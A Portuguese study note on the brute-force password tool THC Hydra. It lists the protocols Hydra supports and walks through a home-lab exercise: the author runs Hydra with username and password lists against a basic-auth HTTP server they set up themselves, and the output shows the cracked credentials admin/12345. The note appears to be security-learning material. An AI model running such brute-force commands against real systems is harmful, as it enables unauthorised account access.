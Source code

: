 THC Hydra

- Ferramenta de cracking de senhas utilizando da técnica de força bruta
- Protocolos de suporte FTP, HTTP, SSH, entre outros
- Código aberto no github, construido na linguagem C
- Pode receber como parâmetro uma lista de senhas a testar para automatizar o processo

Normalmente utilizado em ambientes Unix, mas é cross-platform

Pode ser instalado, mas no Kali Linux vem instalado por padrão

Prática realizada: 

Subir um servidor http com sauth no Windows (biblioteca python que levanta um server http e autentica a rota raiz):

- sauth admin 12345

Rodar o hydra com os parâmetros a seguir:

- sudo hydra -v -L arq.txt -P arq2.txt 192.168.1.11 -s 8333 http-get

Saída recebida:

<h4>
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-16 22:43:49

[WARNING] You must supply the web page as an additional option or via -m, default path set to /

[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task

[DATA] attacking http-get://192.168.1.11:8333/

[VERBOSE] Resolving addresses ... [VERBOSE] resolving done

<font color="green"> [8333][http-get] host: 192.168.1.11   login: admin   password: 12345 </font>

[STATUS] attack finished for 192.168.1.11 (waiting for children to complete tests)

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-16 22:43:50

Ou seja ele, encontrou o login com admin e senha 12345

</h4>

Link com artigo:

- https://medium.com/liveonnetwork/hydra-tryhackme-f3efb6658ac0